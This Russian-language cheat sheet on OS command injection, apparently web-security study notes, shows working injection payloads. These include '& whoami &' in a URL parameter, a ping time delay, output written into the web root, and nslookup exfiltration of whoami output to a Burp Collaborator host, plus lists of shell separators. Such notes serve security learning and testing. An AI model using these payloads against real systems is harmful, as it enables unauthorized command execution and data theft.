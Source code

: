 [OS command injection](https://portswigger.net/web-security/os-command-injection)

Unix binaries: [GTOFBins](https://gtfobins.github.io/)
Windows binaries: [LOLBAS](https://lolbas-project.github.io/)

## Выполнение произвольных команд
Запрос:
`https://insecure-website.com/stockStatus?productID=381&storeID=29`
Команда:
`stockreport.pl 381 29`
Инъекция (можно закодировать в URL)
`& whoami &`
Команда примет вид:
`stockreport.pl & whoami & 29`
## Полезные команды
![Some useful commands](/_images/OS_command_injection_useful_commands.jpg)
## Слепая инъекция команд
На примере отправки отзыва о сайте:
`mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com`
**Временная задержка**
`; ping -c 10 127.0.0.1 ;`
**Перенаправления вывода**
Например, если приложение обслуживает статические ресурсы из файловой системы /var/www/static, то можно:
`; whoami > /var/www/static/whoami.txt ;`
**Использование out-of-band (OAST) методов**
`; nslookup h0ipdd0o7ubzva6ghoq96993buhl5a.burpcollaborator.net ;`
Эксфильтрация `whoami` (%60 == &#0096;):
`; nslookup %60whoami%60.o1qp1jygitgcuf3cj8xz5zi3jupkd9.burpcollaborator.net ;`
## Способы инъекции
Следующие разделители работают на Windows и Unix-based системах:
-   `&`
-   `&&` 
-   `|`
-   `||`

Следующие разделители работают только на Unix-based системах:
-   `;`
-   newline (`0x0a` или`\n`)

Как работают разделители:
- `cmd1; cmd2` - `cmd2` выполняется в любом случае
- `cmd1 && cmd2` - `cmd2` выполняется, если `cmd1` успешно выполняется
- `cmd1 || cmd2` - `cmd2` выполняется, если `cmd1` возвращает ошибку

В Unix-based системах также можно использовать &#0096; (бэктики) или $:
-   `` ` `` injected command `` ` ``
-   `$(` injected command `)`
